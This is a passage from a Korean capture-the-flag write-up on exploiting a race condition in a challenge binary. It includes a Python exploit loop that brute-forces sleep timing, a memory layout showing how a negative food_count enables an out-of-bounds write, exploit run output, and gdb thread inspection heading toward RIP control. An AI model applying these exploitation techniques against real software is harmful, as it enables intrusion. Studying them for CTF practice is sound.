 ``` python
        r = insert_food(s, b"1", 60)
        if len(r.split(b"\n")) > 60:
            print(f"success : {sleep_time}")
        s.close()
        print(f'\rProgress: {i} / 10000\r', end='')
```
실질적으로는 information leak을 수행한 후에 race condition을 트리거하므로 같은 상황을 만들어주기 위해 information leak을 위한 payload도 중간에 작성해야 정확한 time을 구할 수 있다.

트리거 성공 시 `food_count`가 -1이 되고 이 때 `insert`를 하면 `food[-1]`에 데이터를 쓸 수 있게된다.
```
food[-1]     :  0x00007ffff7da5510 -> name[0x40]
                0x00007ffff7da5520
                0x00007ffff7da5530
                0x00007ffff7da5540
food_count   :  0x00007ffff7da5550 -> cook_time[0x8], left_time[0x8]
food[0]      :  0x00007ffff7da5560 -> name[0x40]
                0x00007ffff7da5570
                0x00007ffff7da5580
                0x00007ffff7da5590
                0x00007ffff7da55a0 -> cook_time[0x8], left_time[0x8]
                0x00007ffff7da55b0
                ...
TLS          :  0x00007ffff7da56c0
                ...
LIBC         :  0x00007ffff7da9000
```
이 때 입력하는 `cook_time`이 `food_count` 위치에 쓰여지기 때문에 `cook_time`을 60으로 입력하면 `food_count`가 60인 것으로 인식되어 `food`를 60개 출력해준다.

따라서 트리거 성공 여부를 출력되는 `food`의 개수로 판단하게끔 payload를 작성했다.
``` bash
➜  python3 exploit.py -p 8798 -d 0 -b 1
success : 0.981
success : 0.9814
success : 0.9816
```
그 결과 적당한 sleep time을 구할 수 있었다. 다만 여러 번 실행하면 메모리 이슈 때문인지 time window가 조금씩 밀리는 모양이다.

### RIP control
Race condition을 트리거한 후 gdb에서 `info threads`를 통해 쓰레드 정보를 확인해보면 다음과 같다.
``` bash
gef➤  info threads
  Id   Target Id          Frame
  1    LWP 974101 "chall" 0x00007ffff7e41d61 in ?? () from ./lib/x86_64-linux-gnu/libc.so.6
* 2    LWP 974149 "chall" 0x0000555555555e51 in ?? ()
  3    LWP 974150 "chall" 0x00007ffff7e95adf in clock_nanosleep () from ./lib/x86_64-linux-gnu/libc.so.6
```
이 중 3번 쓰레드가 `start_routine_16B1`이 실행되는 쓰레드로, `thread 3` 명령을 통해 context를 switch해보면,
``` bash
[#0] 0x7ffff7e95adf → clock_nanosleep()
[#1] 0x7ffff7ea2a27 → nanosleep()
[#2] 0x7ffff7eb7c63 → sleep()
[#3] 0x555555555923 → jmp 0x5555555556d9
[#4] 0x7ffff7e45a94 → jmp 0x7ffff7e4586d
[#5] 0x7ffff7ed2a34 → clone()
─────────────────────────────────────────────────────────────────────────────────────────────
gef➤  p $rsp
$1 = (void *) 0x7ffff75a3c20
gef➤  vmmap 0x7ffff75a3c20
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x00007ffff6da5000 0x00007ffff75a5000 0x0000000000000000 rw-
```